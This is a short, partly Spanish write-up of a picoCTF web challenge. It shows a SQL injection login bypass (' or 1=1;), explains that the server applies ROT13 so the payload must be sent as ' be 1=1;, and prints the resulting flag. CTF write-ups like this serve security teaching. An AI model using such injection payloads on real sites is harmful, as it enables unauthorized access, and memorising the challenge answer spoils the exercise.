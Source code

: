 # Objetivo 

There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!
# Solución 
```
password: ' or 1=1;
SQL query: SELECT * FROM admin where password = '' be 1=1;'


se ve que nos cambia or por be 

asi que puisimos a prueba un  ejemplo como hola mundo y utilizando 
el cyberchef poniendo el root13 nos idientificamos que es lo que nos cambia  

asi que a hora en el cyberchef  ponemos ' or  1=1; lo cambia en el root13 y nos da ' be 1=1; y a hora ponemos eso en el password 

password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}

```
# Notas 

